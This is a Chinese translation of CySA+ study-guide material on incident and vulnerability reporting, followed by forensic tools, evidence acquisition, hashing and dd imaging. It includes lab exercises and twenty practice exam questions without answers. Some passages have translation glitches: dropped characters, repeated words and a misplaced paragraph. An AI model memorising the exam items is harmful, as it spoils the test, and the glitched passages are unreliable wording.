* 通常会包含事件的`timeline`（时间轴），以概述发生了什么以及发生的时间。时间轴通过指出行动未及时完成或响应滞后之处，帮助确定需要改进的。它们还可以指出攻击者的方法，以及关于攻击者和防御者在事件期间使用的过程和技术等有用信息。

  

  `FIGURE 12.2` 示例事件响应报告

* `Impact assessment`（影响评估）有助于有助于了解事件的结果以及可能需要解决的问题。这可能包括财务、声誉或其他损害。

* `Scope`（范围）描述了组织的哪些系统和服务和其他元素受到了影响。

* 调查期间收集的`Evidence`（证据）通常作为附录，但也可以作为报告的一部分进行总结，提供关于事件的有益背景信息。

## 总结

报告和通信是网络安全分析师技能中的重要元素。漏洞管理报告通常包括漏洞名称和描述、受影响主机列表、风险评分、缓解方案、漏洞再次发生的信息以及优先级信息，以帮助确保优先处理最重要的漏洞。

还会采取额外的通信和报告行动，以确保漏洞管理的成功。这些包括创建合规性报告，这些报告通常由监管或合同合规性要求驱动。创建行动计划以记录如何以及何时进行补丁和修复。配置管理和补丁工具系统将提供报告，以证明补丁工作的成功或失败。然后将跟踪指标和`KPIs`（关键性能指标），以确保漏洞管理工作实现了预期目标。趋势、前 10 列表、关键漏洞列表和服务水平目标均作为此过程的一部分。

尽管付出了最大努力，组织往往会遇到修复的阻碍。安全分析师需要考虑`MOUs`（谅解备忘录）和`SLAs`（服务等级协议）对组织遵守可用性目标的同时及时补丁的能力的影响。组织治理可能会阻补丁，特别是当补丁可能导致业务流程中断或功能下降时。最后，遗留系统和专有系统可能无法进行补丁，或者在保留支持的情况下无法安装补丁，从而需要补偿措施。

通信贯穿整个事件响应过程，从识别到声明、响应、升级和解决。响应人员需要知道过程中的利益相关者是谁，以及这些利益相关者何时参与。通信还需要考虑如何以及何时涉及法律顾问、与客户和媒体的公关活动、监管报告以及执法部门。

事件一旦解决，根原因分析和教训总结有助于确保组织利用从事件中学到的教训进行改进。指标和`KPIs`，包括平均检测时间、平均响应时间和平均修复时间，都都有助于让领导层和响应人员对及时响应负责。

## 考试要点

**理解漏洞管理报告。** 漏洞报告包括常见元素，如`CVE`编号和`CVSS`评分、名称、描述、受影响主机、缓解方案、关于再次发生的信息以及优先级信息。它们需要定期、及时地发送给相关的利益相关者。在适当的情况下可能会发送合规性报告等特定报告类型。然后准备行动计划来应对报告，可能包括配置管理、补丁、补偿措施、意识、教育和培训以及业务需求信息。

**解释漏洞管理指标和 KPIs。** 趋势数据用于判断计划是否成功，或新问题是否正在变成系统性问题。前 10 列表可以帮助识别最常见的漏洞，从而帮助集中精力。关键漏洞列表也有助于关注最危险的漏洞。在报告中跟踪零日漏洞具有挑战性，但可能是领导层的要求。最后，设定服务水平目标(`SLOs`）来定义及时修复目标并确定组织是否达到了这些目标。


**描述修复的阻碍。** 谅解备忘录（`MOUs`）和服务等级协议（`SLAs`）定义性能或可用性目标，由于系统或服务需要离线，可能会与补丁产生冲突。组织治理可能会引入影响补丁的延迟或额外要求。对补丁导致业务流程中断或功能下降的担忧也可能影响补丁。最后，遗留系统和专有系统可能没有可用补丁，或者在保留支持的情况下无法安装补丁。

**理解事件响应的关键利益相关者。** 必须识别利益相关者以确保适当的事件通信和报告，并需要他们参与事件的声明和升级。通信可能需要涉及法律、与客户和媒体的公关、监管报告以及执法部门。

**列出事件响应报告的关键项目。** 事件报告通常包括执行摘要，以易于理解的简短形式描述事件。它们还必须包含事件的谁、什么、何时、何地和为什么。有关影响、范围和时间轴的信息、改进建议以及与事件相关的证据通常也会包含。根原因分析有助于推动改进以避免未来发生类似的事件。

**描述事件响应指标和 KPIs。** 平均检测时间、平均响应时间和平均修复时间在评估事件响应计划的有效性时都是有用信息。衡量告警量不太可能提供有用数据，但可能会被管理层。

## 实验练习

### 活动 12.1：漏洞管理报告

在活动 6.2 中，你运行了漏洞扫描，在活动 7.1 中你分析了该扫描以考虑修复计划。利用这些结果，准备一份漏洞扫描报告，你可以向部门负责人或其他高级领导提供有关扫描和所需修复的信息。

1. 描述哪些漏洞是关键的，以及为什么。

2. 识别可能适用补偿措施的漏洞。

3. 选择一个漏洞并假设它自上次报告运行以来再次发生。你如何在给管理层的报告中描述它？

4. 你预见到哪些修复的阻碍？你如何在给管理层的书面报告中解决这些问题？

### 活动 12.2：审查公共事件报告

在此练习中，你将审查一份公开的事件报告。

1. 找到一份最近的公开发布的事件报告。可以考虑以下两个示例：

   - LastPass 的 2022 年安全漏洞通知（`https://blog.lastpass.com/2022/12/notice-of-recent-security-incident`）

   - 微软的 DEV-0357 入侵（`www.microsoft.com/en-us/security/blog/2022/03/22/dev-0537-criminal-actor-targeting-organizations-for-data-exfiltration-and-destruction`）

2. 思考以下问题：

   - 通知是否包含了客户所需的所有信息？

   - 针对该公告是否有公开评论？如果有，这些评论的基调是怎样的？

   - 是否有后续报告？该报告是什么时候发布的？它是否改变了初始报告中提供的信息？

   - 该组织打算采取哪些行动？这些行动是否适当或充分？

   - 是否有执法部门参与其中？

3. 考虑你所在组织的事件响应流程和报告流程。对于类似的事件，你组织的公共事件报告将包含哪些内容？在哪些方面会有所不同？如果是，原因是什么？

### 活动 12.3：事件报告

在本次练习中，你将根据自己经历过的事件填写一份示例事件报告。如果你从未经历过事件，可以简单查看该表单，并考虑对于你熟悉的组织中发生的事件，你想要哪些信息。

1. 下载位于 `www.cisa.gov/uscert/sites/default/files/c3vp/crr_resources_guides/CRR_Resource:Guide-IM.pdf` 的指南。

2. 识别一个你参与过或所了解的事件。

3. 根据该事件填写表单。

4. 考虑以下问题：

   - 你缺乏哪些信息？

   - 你将如何收集这些信息？

   - 事件的根源是什么？

   - 你的组织吸取了哪些教训？

   - 根据这些教训，你会建议哪些控制措施或变更？

## 复习题

1. 根据 NIST 的标准，组织为什么应该预先确定通信指南？

   1. 以限制知道敏感事件信息的人数

   2. 为了确保符合联邦法律

   3. 为了确保与相关方共享适当的通信信息

   4. 为了确保通信的一致性

2. Valentine 正在准备一份漏洞管理报告。哪项数据点对于判断补丁计划是否未成功帮助最大？

   1. 受影响的主机列表

   2. 关于复发的信息

   3. 优先级信息

   4. 风险分值（Risk scores）

3. Jake 想要识别漏洞管理通信的利益相关者。哪类利益相关者群体最可能希望通过 `API` 而不是书面通信获取信息？

   1. 安全运营与监督利益相关者

   2. 审计与合规利益相关者

   3. 系统管理利益相关者

   4. 管理层利益相关者

4. 与利益相关者的通信发生在 NIST IR 响应周期的哪个阶段？

   1. 检测与分析

   2. 遏制、根除与恢复

   3. 事件后活动

   4. 所有周期都包含与利益相关者的通信。

5. 下列潜在的事件响应指标中，哪一个对于理解组织的事件响应能力最不可用？

   1. 平均检测时间

   2. 告警量

   3. 平均响应时间

   4. 平均修复时间

6. 为什么服务水平协议（SLA）可能会导致组织延迟打补丁？

   1. 为了强制供应商合规

   2. 为了保持许可合规

   3. 为了实现组织治理目标

   4. 为了满足 `SLA` 定义的性能目标

7. Ian 想要确保补丁按计划安装。他应该作为其计划的一部分投资哪种工具？

   1. 漏洞扫描器

   2. 配置管理

   3. 基准线

   4. 终端检测与响应（`EDR`）工具

8. Sally 正在准备一份事件报告。报告的哪部分旨在帮助理解事件的结果？

   1. 影响评估

   2. 时间线

   3. 范围

   4. 建议

9. Jaime 担心她的组织可能面临多个修复障碍。以下哪项与性能目标最相关？

   1. 组织治理

   2. 遗留系统

   3. 内部治理

   4. 媒体需求

10. Selah 想要在她的事件报告中包含相关日志。哪部分最频繁包含这些？

    1. 时间线

    2. 执行摘要

    3. 附录

    4. 建议

11. Danielle 完成了报告，并希望改进流程。经常进行哪种练习？

    1. 媒体培训

    2. 政府合规

    3. 教训总结

    4. 强制报告

12. 媒体培训发生在 IR 周期的哪个阶段？

    1. 准备

    2. 检测与分析

    3. 遏制、根除与恢复

    4. 事件后活动

13. Michelle 正在进行根因分析。以下哪项不是 `RCA` 的四个常用步骤之一？

    1. 使用图表或流程图记录根因

    2. 建立时间线

    3. 确定哪个个人或团队负责

    4. 识别问题和事件

14. Charles 所在的组织发生了一个重大事件。以下哪项最可能要求组织在特定时间内报告？

    1. 组织政策

    2. 内部治理

    3. 合规性

    4. 媒体需求

15. 在测试后，Jim 确定安装补丁会导致功能下降。Jim 应该建议什么来解决这个问题？

    1. 组织治理

    2. 补偿控制

    3. 替换遗留系统

    4. 服务水平协议

16. 下列哪项不是 NIST 建议的有助于媒体的实践？

    1. 在 IR 过程中避免媒体

    2. 建立媒体程序

    3. 维护 IR 状态文档或声明

    4. 媒体培训

17. 事件报告通常在响应周期的哪个阶段准备？

    1. 检测与分析

    2. 事件后活动

    3. 准备

    4. 遏制、根除与恢复

18. Chris 所在的安全团队收到了今天早晨发布的一个 Windows 零日漏洞通知。Chris 的经理要求他立即检查最近的漏洞报告以确定组织是否受影响。Chris 应该告诉他的经理什么？

    1. 需要重新运行报告以列出零日漏洞

    2. 他需要更新漏洞扫描器以检测零日漏洞

    3. 零日漏洞不会出现在之前运行的漏洞报告中

    4. 零日漏洞无法检测

19. Mikayla 的组织根据漏洞管理仪表板报告发现了一个持续问题。趋势表明补丁更新并不及时，且某些最关键漏洞没有安装补丁。如果 Mikayla 认为系统管理员没有优先考虑补丁，她应该做什么？

    1. 开展意识、教育和培训活动。

    2. 评估变化的业务需求。

    3. 部署补偿措施。

    4. 让管理层介入惩罚不打补丁的管理员。

20. Geeta 的组织运行着一个供应商提供的关键系统，该供应商规定操作系统无法打补。当她的漏洞报告显示系统补丁滞且存在严重漏洞时，Geeta 应该推荐哪种解决方案？

    1. 将漏洞标记为无法修复并继续操作以确保业务连续性。

    2. 关闭系统直到找到解决方案为止。

    3. 安装操作系统补丁并测试其是否会引起问题。

    4. 识别并部署补偿措施。

# 第 13 章：执行取证分析与事件响应技术

计算机取证调查用于确定系统中发生了哪些活动、更改和其他操作，是由谁或什么程序执行的，以及那里存储了哪些数据。这意味着计算机取证技术被应用于多种场景，包括事件响应、警方调查、对系统管理员滥用的查询、受损分析和恶意软件分析，以及与内部政策违规相关的调查。虽然取证调查有很多原因，但 `CySA+` 考试大纲侧重于事件响应背景和事后活动中的取证。

在本章中，你将学习如何执行事件响应活动，并能够解释事件管理生命周期中的准备和活动后阶段。你还将学习如何准备进行基本的取证调查。你将学习取证工具包及其内容，以及其中设备和工具的使用。然后，你将探索用于网络、端点、移动以及云和虚拟调查捕获和保存取证数据的取证工具和流程。

### 构建取证能力

能够进行取证调查的第一步之一是收集正确的工具集。取证工具具有广泛的功能、成本和目的。在构建你的工具包之前，你应该确定你可能进行什么种类型的调查、需要分析什么种类型的系统和设备，以及你需要遵守何种证据标准。

### 构建取证工具包

完整的取证工具包是任何取证调查的重要部分。拥有正确的工具和材料不仅可以让过程变得更容易，还能帮助确保你的调查拥有正确的文档和支持材料，以防在你需要提供过程证明时——无论是在法庭、管理层还是审计员面前。

在接下来的几页中，你将学习取证工具包的主要组件，包括取证工作站、数据捕获工具和设备，以及帮助提供适当监管链跟踪的管理工具。请记住你的组织可能如何进行取证调查——并非所有这些组件对你的用例都是需要的。

#### 工具包的关键组件

以下组件是大多数取证工具包共有的。取证工作站可以是台式机、笔记本电脑甚至是服务器，具体的组件应根据你的组织进行定制。但这组基本物品将允许你在大多数情况下执行取证调查。

- 数字取证工作站。一个良好的取证工作站设计用于允许进行数据捕获和分析，这些任务可以受益于强大的多核 `CPU` 和充足的 `RAM`。拥有大量快速、可靠的存储空间也很重要，因为大型调查可能处理 TB 级的数据。

- 取证调查套件或取证软件，如 `FTK`、`EnCase`、`SANS Investigative Forensic Kit (SIFT)` 或 `The Sleuth Kit (TSK)`，它们提供了捕获和分析取证镜像以及跟踪取证调查的能力。

- 写保护器（Write blockers），确保连接到取证系统或设备的驱动器无法被写入。这有助于确保取证调查的完整性；文件访问时间被改变——更糟糕的是，分析数据的系统修改了驱动器上文件的内容——可能会导致取证证据失去用处。

- 取证驱动器复制器（Forensic drive duplicators），设计用于取证调查复制驱动器，并验证原始驱动器与新驱动器内容是否匹配。许多取证工具和套件也提供这种功能，但专用的克隆设备可能有用（而且有时可以更容易证明复制过程是以符合取证的方式完成的）。

- 容量充足的擦除驱动器和擦除移动介质，以处理你可能遇到的任何驱动器或系统。幸运的是，大型 `SATA` 硬盘、便携式 `NAS` 设备和大型 `SSD` 让捕获和传输多个取证镜像变得容易得多。大 `USB` 优盘、可写 `Blu-ray` 或 `DVD` 介质或闪存等移动介质对于传输取证数据或在必要时发送给其他组织也很有价值。

- 各种类型的电缆和驱动器适配器，确保你可以连接到可能遇到的大多数类型设备。在企业环境中，你可能知道组织部署了什么种机器和驱动器，允许你选择正确的适配器和电缆来匹配你拥有的设备。在执法、咨询或其他可能不知道会遇到什么的环境中，拥有广泛选择的电缆和适配器将非常有帮助。

- 相机，用于记录系统配置、驱动器标签和其他信息。相机是取证捕获中一个意想不到的重要部分，因为它们可以加速数据记录，并提供系统或设备状态的视觉记录。

- 标记和文档工具，包括标签机或标签、不擦之笔和其他有助于监管链和取证过程文档记录的工具。

- 笔记本和预备的文档表单及清单，用于记录取证调查过程和笔记。常见的表单类型包括跟踪谁在任何时候拥有证据的监管链表、用于跟踪响应过程的事件响应表单、事件响应计划和事件表单，以及响应过程中需要联系的人员升级名单或电话列表。这些有时会被取证录制软件软件包或其他提供验证日志条目方法并跟踪变化的软件工具取代。`Figure 13.1` 显示了监管链表的一个示例。

## 理解取证软件

有很多类型的取证软件，从专门构建的取证套件和工具（如 `FTK`、`EnCase`、`CAINE`、`Autopsy` 和 `SIFT`）到取证实用程序（如 `DumpIt` 和 `Memoryze`）。许多常见的 Linux 和 Windows 实用程序也具有取证应用，包括 `dd` 和 `WinDbg` 等工具。

### 功能与应用

取证调查可以采取许多形式，这意味着你需要广泛的软件工具包来处理你遇到的情况、系统和特定需求。取证软件工具包中应包含的关键取证工具功能包括镜像、分析、哈希和验证、进程和内存转储分析、密码破解和日志查看器。

#### 镜像媒介和驱动器

许多取证调查的第一步是创建媒体或磁盘的副本，这些设备可能包含对调查有用的数据。这是通过使用镜像工具完成的，该工具可以创建完整磁盘、磁盘分区或逻辑卷的取证镜像。

取证镜像与原始源驱动器、卷、分区或设备完全匹配，包括空闲空间（slack space）和未分配空间（unallocated space）。空闲空间是写入文件后留下的空间。这些未被使用的空间可能包含之前写入该空间的文件碎片，甚至是刻意隐藏的文件。未分配空间是指未分区的空间。当使用得当时，镜像工具可以确保你捕获了所有此类数据。

## 分析工具

取证分析工具提供了许多实用的功能，可以帮助深入了解系统上发生了什么。示例包括：

- 系统更改时间线

- 验证工具，用于将系统上发现的文件与已知的良好版本文件进行比对

- 文件系统分析能力，可以查看文件系统元数据（如 `NTFS` 的 Windows 主文件表）以识别文件的更改、访问和删除

- 文件雕刻（File carving）工具，允许在文件系统本身不可用的情况下恢复文件

- Windows 注册表分析

- 日志文件解析与审查

这些分析工具可以帮助识别对取证调查有用的信息，但要用好它们需要详细的取证知识，以避免遗漏重要数据。

## 雕刻

当作为取证分析的一部分恢复数据时，原始文件系统可能已不再完整。在这种情况下以及其他无法使用原始文件系统的场景中，文件`雕刻`工具就大显身手了。文件雕刻工具按块为单位查看数据，寻找文件头和其他文件结构指示器等信息。当它们找到这些信息时，会尝试恢复完整甚至部分文件。

三种常见的文件雕刻方法如下：

- 基于文件头和文件脚的雕刻，侧重于类似于 JPEG 文件中的文件头。例如，通过查找文件头中的 `\xFF\xD8` 和文件脚中的 `\xFF\xD9` 来找到 JPEG 文件。

- 基于内容的雕刻技术，寻找有关文件内容的信息，如字符计数和文本识别。

- 基于文件结构的雕刻技术，使用有关文件结构的信息。

图 13.2 显示了在免费十六进制编辑器 `HxD` 中打开的 JPEG 文件。在图像左上角，你可以看到 JPEG 的头信息，显示 `FF` 和 `D8` 是文件中的第一对项目。


`图 13.2` 使用 HxD 雕刻 JPEG 文件

## 监管链跟踪

以自动化和记录的方式妥当维护监管链（chain of custody）文档的支持，是取证套件的重要组成部分，也是许多组织记录的取证程序的重要组成部分。维护监管链文档可确保磁盘镜像和其他数据，以及使用该套件采取的操作都经过了妥当的验证并可供审查，从而减少了因保管实践不当而导致法律挑战的风险。

## 哈希与验证

验证镜像的取证完整性是取证镜像的重要组成部分。幸运的是，可以使用取证套件内置的`哈希`（hashing）工具或独立运行这些工具来获取驱动器的哈希值，以验证副本的内容。此过程的目标是确保副本与源驱动器或设备完全匹配。

取证镜像格式（如 EnCase 的 `EO1` 格式）提供了文件内置的哈希。在未使用此类格式的情况下，`MD5`、`SHA1` 和 `SHA2` 哈希经常被用于此目的。即使使用 `MD5` 这样快速的算法，对大硬盘计算哈希也需要很多时间，但过程本身非常简单，所示。以下提供了 Linux 系统上挂载卷的 MD5 哈希：

```
user@demo:~# md5sum /dev/sda1
9b98b637a132974e41e3c6ae1fc9fc96  /dev/sda1
```

为了验证镜像，会为原始镜像和副本生成哈希值。如果哈希值匹配，则镜像是相同的。两个哈希值都应该作为调查取证日志的一部分记录下来。

哈希还经常用于验证二进制文件和其他应用程序相关文件，以检测二进制文件的更改。可以使用 `MD5` 或 `SHA1` 工具进行手动校验和，以检查文件是否与已知的良好版本或备份文件匹配，或者与供应商或其他来源提供的校验和进行比对。


对于应急响应人员和取证分析师来说，幸运的是，已知文件哈希数据库由少数组织维护，包括 NIST 国家软件参考库（National Software Reference Library），该库包含了带有软件数字签名的参考数据集：`www.nist.gov/itl/ssd/software-quality-group/national-software-reference-library-nsrl`。

许多组织还跟踪已知的恶意软件哈希，允许响应人员上传疑似恶意代码进行检查。

## 执行端点取证

传统上，绝大多数取证活动发生在端点系统上：服务器、桌面电脑、笔记本电脑和各种类型的移动设备。随着组织日益向云端迁移，越来越多的取证活动在那里发生，但对于大多数从业人员来说，大部分取证工作可能仍继续涉及传统的端点。

### 操作系统、进程和内存转储分析

关于操作系统（OS）状态的信息（包括存储在内存中的数据）对于取证调查以及恶意软件感染或入侵调查都非常重要。通常，其他情况下加密存储的数据在内存中对进程是可见的，或者这些进程访问加密数据时使用的加密密钥也可用。捕获内存、进程信息和数据以及操作特定的分析能力是一项实用的取证能力。操作系统分析可以提供调查目标时间段内系统运行的关键数据。

除了实时内存捕获和分析外，内存转储（memory dump）分析在恢复 `BitLocker` 等全盘加密产品的解密密钥时特别有价值。休眠文件和崩溃转储都包含解密磁盘所需的数据，这使得访问未锁的机器对于取证从业人员至关重要。

#### 磁盘取证

端点最常见的取证活动是磁盘或基于存储的分析。其范围从手动检查文件到本章提到的对整个磁盘或卷进行完整镜像和分析。

#### 内存取证

执行内存取证需要在正在运行的机器上运行实时取证分析，或者制作实时内存副本以进行时点取证内存分析。像 `Volatility` 这样的开源内存取证框架可以捕获并分析内存。

`Volatility` 拥有广泛的插件命令，包括检测 API 钩、读取键盘缓冲区、获取 Windows 剪贴板、查找活动 TCP 连接、扫描驱动对象等许多功能。如果内存中存在明文形式的可访问数据，你应该假设它是可以被恢复的——即使它是加密的，如果密钥可用，也可以访问加密版本并进行解密。

内存取证在尝试恢复在使用期间存储在内存中的安全产物（例如加密密钥和密码）时特别有用。作为取证实务人员，你应该记住，系统崩溃转储文件通常包含实时内存的副本，这使其成为实务人员和有经验的攻击者极具吸引力的目标。

## 移动设备与手机取证

移动设备取证能力存在于许多商业取证套件中，也以独立工具的形式存在。由于许多手机操作系统提供了安全特性，这些工具通常具有专门的解密或暴力破解能力，允许从锁定且加密的手机或手机分区中提取数据。

手机备份取证能力也是移动取证的有用工具。备份可能不包含所有当前数据，但它们可能包含已删除的旧数据，且其安全性可能不如手机本身，因此它们成为取证获取和审查的极具吸引力的目标。

## 密码破解器与密码恢复

越来越多的驱动和设备被加密或使用密码来保护系统或文件。这使得密码恢复工具（也称为密码破解器）对取证检查员非常有用。除了操作系统或帐户级别之外，发现密码保护的常见区域还包括 Microsoft Office 文件、PDF，以及 ZIP 和 RAR 压缩文件。

为取证调查恢复密码可能具有挑战性，但如 `ElcomSoft's Advanced Office Password Recovery`（如图 13.3 所示）等工具提供了多种文件类型的暴力破解密码功能。


`图 13.3` Advanced Office Password Recovery 破解 Word DOC 文件

## 加密工具

加密工具既用于保护取证数据，也用于保护数据和应用程序免受取证。取证工具通常具有加密功能，以确保在传输驱动器或文件或取证环境受到破坏时，取证调查中的敏感数据不会泄露。

还需要加密工具来处理加密驱动和网络协议。这些能力因工具而异，但处理 `BitLocker`、`Microsoft Office` 以及其他常见的加密机制是取证调查中的常见任务。

当使用取证技术调查恶意软件时，经常会遇到加密和其他保护方案作为防止恶意软件代码分析的手段。许多恶意软件包使用称为“壳器”（packers）的工具，旨在保护它们免受逆向工程。壳器的目的是使直接分析代码变得困难或不可能。某些取证工具支持对 `Base64` 编码等打包技术进行解包和解码。

## 日志查看器

日志文件可以提供有关系统状态、在系统上执行的操作以及错误或问题的信息，以及各种其他信息。这使得当你尝试理解系统或设备上发生了什么时，日志条目变得特别有用。取证套件通常内置了`日志查看器`，可以将日志条目与其他取证信息匹配，但专门的日志可能需要额外的工具。

## 网络取证

网络流量取证需要捕获网络流量，或审查此类流量的产物，例如安全或网络设备日志、流量监控数据或其他可以帮助取证实务人员重建事件和事故的信息。

### Wireshark 网络取证

`Wireshark` 是一个开源的网络协议分析器（有时被称为数据包嗅探器）。它允许你在微观层面捕获并与网络流量进行交互。`Wireshark` 可以通过分析流量监控数据以及安全或网络设备日志来重建事件和事故。

### Tcpdump 网络取证

`tcpdump` 是一个用于拦截网络流量的命令行数据包分析器。它在 Linux 和 Unix 系统上广泛可用，可以在没有图形用户界面（GUI）的情况下捕获和分析流量。

虚拟化和容器化具有许多共同目标，且运行方式大体相似。图 13.6 显示了这两个概念在高层面的对比。请注意虚拟化环境中的虚拟机与运行在相同容器化引擎下的应用程序之间的区别。

### 容器取证

容器正变得越来越常见，容器取证可能会引发一些独特的问题。其中最重要的一点可能是，大多数容器被设计为一次性使用的，因此一旦出现问题，许多组织会有相应的流程，以自动化或半自动化的方式关闭、销毁并重建容器。即使没有安全问题，由于其瞬态性，容器也可能被销毁或调度到不同的节点。这意味着取证产物可能会丢失。


`图 13.6` 虚拟化 vs 容器化

容器化技术还带来了其他挑战：内部卷和文件系统痕迹是瞬态的；它们通过软件定义网络进行通信，随着容器的上线、下线或移动，这些网络会频繁变化；而且安全上下文由容器化编排工具进行动态修改。

这意味着，如果你预判到需要响应涉及容器化应用程序的事件，你需要预先计划捕获你将需要的数据。这意味着要识别用于审计活动的工具和流程，以及捕获容器取证可能所需的数据的方法。幸运的是，目前已有容器化安全工具可以提供此类帮助。

### 事件后活动与证据获取

CySA+ 考试目标在事件后活动方面重点关注三个主要领域：取证分析、根本原因分析和教训总结。此外，证据获取通常作为取证活动的一部分进行，并包含在本节中。

### 执行取证分析

取证分析不仅依赖取证工具包和取证套件。由于涉及的系统、设备、个人和其他材料，执行取证调查的过程通常非常复杂。

作为事件响应过程一部分进行的取证调查通常侧重于`根本原因分析`，即确定发生了什么以及为什么发生的过程。此外，在取证调查和事件响应过程完成后，`经验 Learned`将作为`事件后活动`的一部分被记录并落实。

接下来，我们将查看一个典型的取证流程。

### 取证程序

取证分析（有时称为取证调查）可以有许多形式，取证分析也有许多正式模型，但执行这些操作涉及的基本流程是相同的。在几乎所有场景中，你都会采取以下步骤：

1.  确定你想要发现的内容。你可能被要求调查一个受侵害的系统、分析恶意软件采取的操作，或者找出系统管理员是否对系统进行了未经授权的更改。这构成了问题陈述，有助于定义你将采取哪些取证活动。

2.  概述有助于你回答第 1 步中问题的数据位置和类型。数据可能以多种形式存在，应用程序和系统可以决定数据的格式和可访问性。知道你需要在何时以及如何收集数据也将影响你的取证流程的形式。在这一阶段，你可能不知道具体的硬件或日志位置，但你应该能够想出你需要从中捕获数据的类型和系统。

3.  记录并审查你的计划。

4.  获取并保护证据。获取过程可能需要克隆介质、封存系统或设备，或制作内存镜像，以确保系统在关机时信息不会丢失。

5.  进行初始分析，仔细跟踪你的操作、你处理的系统和数据、你的发现，以及你需要回答的任何问题。

6.  利用初始分析引导后续工作，包括更深层次的调查，并检查初始分析指向了哪些额外数据，或者哪里缺少回答你原始问题所需的信息。

7.  报告调查结果。

获取过程需要考虑易失顺序（order of volatility），该顺序衡量数据丢失的难易程度。这意味着存储在内存或缓存中的数据被认为是高度易失的，因为系统关闭后将会丢失，而存储在打印格式或备份中的数据被认为易失性低得多。图 13.7 显示了取证调查期间可能从其获取数据的常见存储位置易失顺序视图。


`图 13.7` 常见存储位置的易失性

### 法律留存与保护

`法律留存`（Legal holds，有时也称为诉讼留存）要求组织保留所有与待决或正在进行的诉讼相关的、潜在相关的数据和信息。这意味着当发生法律留存时，组织必须准备好保留并交付数据。

法律留存通知通常由组织的律师在收到对方律师的通知后发出。该通知可能识别特定信息，或仅提供有关待决诉讼的信息，如名称、日期或其他有助于识别需要保留哪些数据的细节。由于法律留存可能要求组织保留日志、电子邮件或交易信息等数据，而这些数据通常会在计划的维护或销毁程序中被销毁，因此安全专业人员和其他 IT 人员需要建立流程来保护这些数据。

`保护`也可能出于其他原因而需要。某些数据法律上要求保留一段时间。组织政策可能要求保护某些类型的数据。最后，为了应对未来的法律问题，可能需要作为内部调查的一部分保留数据。

### 证据获取

驱动器镜像必须以符合取证的方式进行捕获。它们还需要通过哈希处理来验证`数据完整性`，并且除了无法完全避免的现场系统取证外，取证复制不应更改源驱动器。为了做到，需要使用镜像工具制作精确的位级拷贝，并使用写保护器以防止修改源驱动器的可能性，同时制作多个副本以保留原始驱动器。

#### 使用 dd 进行镜像

Linux `dd` 工具通常用于以 RAW 格式（即逐位格式）克隆驱动器。`dd` 提供了许多实用的运算符，您应该设置这些运算符以确保镜像过程快速且准确地完成：

- 块大小使用 `bs` 标志设置，并以字节为单位。默认情况下，`dd` 使用 512 字节的块大小，但这远小于大多数现代磁盘的块大小。使用更大的块大小通常会快得多，如果你知道正在复制的设备的块大小，使用其原生块大小可以提供极大的速度提升。这可以通过类似于 `bs = 64k` 的标志来设置。

- 运算符 `if` 设置输入文件；例如，`if = /dev/disk/sda1`。

- 运算符 `of` 设置输出文件；例如，`of = /mnt/usb/`。

图 13.8 显示将挂载的驱动器镜像复制到 USB 设备的示例 `dd`。复制速度取决于块大小、源驱动器与目标驱动器的相对速度以及系统是虚拟还是物理等其他变量。


FIGURE 13.8 卷的 dd 操作

### 处理加密驱动器

驱动器和设备加密日益普遍，使得处理驱动器镜像变得更具挑战性。当然，现场系统镜像可以避免许多加密卷中存在的问题，但它也带来了自己的系列挑战。幸运的是，只要你有卷的密码，商业取证套件就能处理你可能遇到的许多许多常见加密类型。它们还提供了分布式破解方法，利用多台计算机攻击加密文件和卷。

### 使用写保护器

写保护器是取证调查和取证驱动器镜像获取的重要工具。在获取驱动器镜像期间，使用写保护器可以确保将驱动器连接到取证复制设备或工作站时不会对驱动器进行修改，从而破坏过程的取证完整性。这种防止写入的能力在对驱动器和其他介质进行取证分析时同样有用，因为它确保不会意外对驱动器进行修改。

- 硬件写保护器可以防止驱动器通过其连接时发生写入操作。硬件写保护器可以通过 NIST 标准认证，测试信息可以通过 NIST 计算机取证工具测试程序通过 `www.cftt.nist.gov/hardware_write_block.htm` 获取。

- 软件写保护器通常没有硬件写保护器受欢迎，因此也不那么常见。由于可能出现问题，在防止写入发生非常重要时，会更频繁地使用硬件写保护器。

### 验证数据完整性

镜像验证对于确保你的数据在取证上可靠的至关重要。商业工具使用内置的数据完整性验证功能来确保整个镜像与原始文件匹配。当调查人员使用 `dd` 或其他手动镜像工具时，经常使用 `md5sum` 或 `sha1sum` 哈希实用来验证镜像。每当你生成一个镜像时，都应该记录原始文件和克隆副本的哈希或验证信息，并将这些信息记录在你的取证日志或监管链表单中。FTK Imager Lite 会在过程结束时的报告中显示哈希值，如图 13.9 所示。

### 现场系统镜像

当系统使用全盘加密，或者当应用程序、恶意软件或其他软件可能驻留在内存中而磁盘上没有副本时，可能需要在系统运行时采集镜像。

现场镜像可能无法获取某些理想数据：

- 现场镜像可能会由于镜像工具是从可移动驱动器挂载或安装的而留下残留。

- 驱动器或内存的内容在镜像过程中可能会变化。

- 恶意软件或其他软件可能检测到镜像工具，并可能采取行动避免或禁用它。

- 现场镜像通常不包含未分配空间。

商业和开源工具都提供了便携版本，可以加载到现场系统中提供现场镜像能力。


FIGURE 13.9 FTK 镜像哈希和坏道检查

### 重装系统

当系统使用全盘加密，或者当应用程序、恶意软件或其他软件可能驻留在内存中而磁盘上没有副本时，可能需要在系统运行时采集镜像。CySA+ 考试大纲将重装系统称为抑制、根除和恢复的一部分。重装系统涉及重新安装系统或设备。在事件响应中，驱动器通常会被擦除而不仅仅是格式化。重装系统将消除取证痕迹，并在大多数情况下使从系统或设备中恢复数据变得困难，甚至不可能。

### 获取其他数据

除了驱动器镜像外，你可能还想要针对其他类型的数据。幸运的是，在大多数情况下，主机的取证镜像如果这些数据驻留在系统中，也将提供访问这些数据的权限。你可能想要针对的其他区域包括日志数据、USB 设备历史、应用程序数据、浏览器缓存和历史、电子邮件以及用户生成的文件。

#### 采集和审查日志数据

日志数据通常存储在远程，在机器被攻破或管理员采取行动隐藏的情况下，日志可能是不准确的。在其他情况下，调查可能涉及在中央或网络设备上记录的操作，而不是你可能创建取证镜像的单个系统或设备。在这些情况下，保留日志是重要的，并且需要额外的工作。

要保留和分析日志：

- 确定日志存储在哪里以及以什么格式存储。

- 确定你需要保留的时间段。记住，如果你发现问题或入侵发生在你最初怀疑之前，你可能想要获取更长时间的日志。

- 与系统或设备管理员协作获取日志副本，并记录获取方式。使用校验和或其他验证通常是合适的。

- 识别感兴趣的项目。这可能包括操作、用户 ID、事件 ID、时间范围或其他在你的范围内确定的其他元素。

- 使用 Splunk、Sawmill、Event Log Analyzer 或文本编辑器等日志分析工具搜索和审查日志。

#### 查看 USB 设备历史

